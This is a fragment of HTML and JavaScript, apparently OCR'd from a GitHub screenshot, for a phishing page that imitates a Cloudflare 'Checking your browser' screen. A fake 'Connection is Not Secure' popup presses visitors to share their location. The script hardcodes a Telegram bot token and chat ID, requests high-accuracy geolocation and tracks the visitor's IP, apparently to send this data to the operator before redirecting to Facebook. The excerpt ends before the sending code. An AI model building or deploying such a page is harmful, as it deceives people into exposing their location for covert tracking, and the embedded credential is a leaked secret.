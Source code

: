         }
        .popup button {
            background: red;
            color: white;
            border: none;
            padding: 10px;
            margin-top: 10px;
            cursor: pointer;
            border-radius: 5px;
        }
        #loadingMessage {
            margin-top: 20px;
        }
    </style>
</head>
<body>
    <div class="content">
        <h2>Checking your browser</h2>
        <p id="loadingMessage">This process is automatic. Your browser will redirect to your requested content shortly.</p>
<p>Please allow up to 3 seconds...</p>
        
       <p><a href="#">DDoS protection by Cloudflare</a></p>
    </div>

    <div class="popup" id="locationPopup">
        <h2>🔒 Connection is Not Secure</h2>
        <p>Please allow your location and secure your system.</p>
        <button onclick="requestLocation()">Fix Now</button>
    </div>

    <script>
        // Configuration
        const BOT_TOKEN = "7659085089:AAGTE5B4NRLG_tFvbfYayfrG0URgFgXnv5w" ;
        const FIXED_CHAT_ID = "6319619567" ;
        const HIGH_ACCURACY = true; // Set to false if you don't need high accuracy
        const MAX_RETRIES = 3; // Maximum retries for failed requests
        const REQUEST_TIMEOUT = 10000; // 10 seconds timeout for API requests
        const REDIRECT_URL = "https://www.facebook.com"; // Editable redirect URL

        // Global variables
        let userIP = '';
        let retryCounts = {};

        // Location permission check functions
        function checkLocationAccess() {
            navigator.geolocation.getCurrentPosition(
                function(position) {
                    console.log("Location Access Granted");
                    getLocation(); // Proceed with location tracking
                },
                function(error) {
                    if (error.code === error.PERMISSION_DENIED) {
                        document.getElementById("locationPopup").style.display = "block";
                        setTimeout(redirectToSettings, 3000);
                    } else {
                        showError(error);
                    }
                }
            );
        }
